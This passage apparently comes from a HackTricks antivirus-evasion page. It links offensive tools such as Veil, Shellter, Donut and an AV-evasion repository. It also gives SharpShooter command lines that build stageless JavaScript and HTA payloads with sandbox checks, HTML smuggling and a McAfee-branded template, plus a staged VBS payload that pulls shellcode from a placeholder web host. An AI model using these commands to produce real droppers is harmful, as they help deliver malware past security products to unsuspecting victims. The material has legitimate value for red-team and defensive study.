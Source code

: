 ### Using python for build injectors example:

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Other tools

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```

### More

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

{{#include ../banners/hacktricks-training.md}}
